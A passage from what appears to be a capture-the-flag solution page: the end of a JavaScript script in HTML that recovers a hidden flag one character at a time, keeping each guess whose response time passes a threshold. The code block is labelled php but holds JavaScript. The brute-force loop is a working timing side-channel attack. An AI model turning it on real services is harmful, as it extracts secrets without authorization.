 ```php
                    break;
                }
                length += 1
            }

            let charset = "abcdefghijklmnopqrstuvwxyz0123456789 "
            let idx = 0;
            let flag_placeholder = "_".repeat(flag_length)
            let flag = ""

            while(true){
                for (const char of charset) {
                    tmp = flag + char + "_".repeat(flag_length - flag.length - 1);
                    // log(`attempt: ${idx}:${tmp}`)
                    time = await exploit(tmp)
                    if(time >= threshold){
                        log(`flag_temp: ${tmp}`)
                        flag += char
                        idx++
                        break
                    }
                }

                if (flag.length == flag_length) {
                    log(`FLAG: ${flag}`)
                    break
                }
            }
        })()
        
    </script>
</body>
</html>
```
